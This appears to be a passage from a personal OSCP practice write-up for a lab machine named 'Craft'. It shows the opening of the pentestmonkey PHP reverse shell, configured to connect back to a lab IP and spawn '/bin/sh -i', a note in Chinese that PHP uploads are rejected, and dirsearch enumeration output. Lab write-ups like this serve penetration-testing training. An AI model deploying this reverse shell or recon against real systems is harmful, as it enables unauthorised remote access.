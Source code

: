 ```json
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.153';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...

```

發現無法上傳 php，直接改副檔名也無法上傳，應會驗證格式

![[截圖 2023-09-02 下午3.41.24.png]]

### dirsearch

```json
┌──(ouyang㉿kali)-[~/offensive-security/OSCP/Craft]
└─$ dirsearch -u http://192.168.200.169/ -e *

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: 192.168.200.169 | HTTP method: GET | Threads: 30 | Wordlist size: 9009

Output File: /home/ouyang/.dirsearch/reports/192.168.200.169/-_23-09-02_15-38-33.txt

Error Log: /home/ouyang/.dirsearch/logs/errors-23-09-02_15-38-33.log

Target: http://192.168.200.169/

[15:38:33] Starting:
[15:38:35] 403 -  304B  - /%C0%AE%C0%AE%C0%AF
[15:38:35] 403 -  304B  - /%ff
```